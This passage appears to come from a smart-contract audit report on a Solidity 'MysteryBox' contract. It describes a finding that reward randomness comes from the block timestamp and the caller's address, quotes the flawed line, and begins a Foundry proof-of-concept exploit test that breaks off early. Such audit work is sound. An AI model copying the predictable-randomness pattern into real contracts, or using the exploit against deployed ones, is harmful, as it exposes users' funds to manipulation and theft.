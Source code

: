 ## Recommendations

* Implement access control using the `onlyOwner` onlyOwner `Ownable` contract to restrict sensitive functions.

    
# Medium Risk Findings

## <a id='M-01'></a>M-01. Predictable RNG Vulnerability in MysteryBox Contract Enables Exploitative Reward Manipulation            

## Proof of Finding
https://codehawks.cyfrin.io/c/2024-09-mystery-box/s/264
<img width="1022" alt="image" src="https://github.com/user-attachments/assets/7fc686f3-0938-4b91-b81c-bb6392328ed1" />


## Summary

MysteryBox contract contains a critical vulnerability due to its pseudo-random number generation (PRNG) mechanism, which is easily predictable. This allows attackers to manipulate and predict the rewards they receive from the mystery box, undermining the fairness and integrity of the contract.

## Vulnerability Details

Predictable random number generation. The vulnerability is in the
openBox Function of the MysteryBox contract. The random value used to determine the reward is derived from the block's timestamp and the user's address. This approach is not secure as both the block timestamp and the user’s address can be controlled or predicted by an attacker.

The PRNG is implemented using:

```javascript
uint256 randomValue = uint256(keccak256(abi.encodePacked(fuzzedTimestamp, attacker))) % 100;
```

This methodology relies on predictable and manipulable parameters (timestamp and address).

## POC
```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../src/MysteryBox.sol"; // Adjust the path as necessary

contract MysteryBoxExploitTest is Test {
    MysteryBox mysteryBox;
    address attacker = address(0xBEEF);

    function setUp() public {
        // Deploy the MysteryBox contract with initial seed funds
        mysteryBox = new MysteryBox{value: 0.1 ether}();
    }

    function testWeakPRNGExploit(uint256 startTime) public {
        // Limit the fuzzed timestamp to a reasonable range to avoid overflow issues
        uint256 fuzzedTimestamp = startTime % (2 ** 32);

        vm.deal(attacker, 10 ether);
        vm.startPrank(attacker);

        // Attacker buys a box
```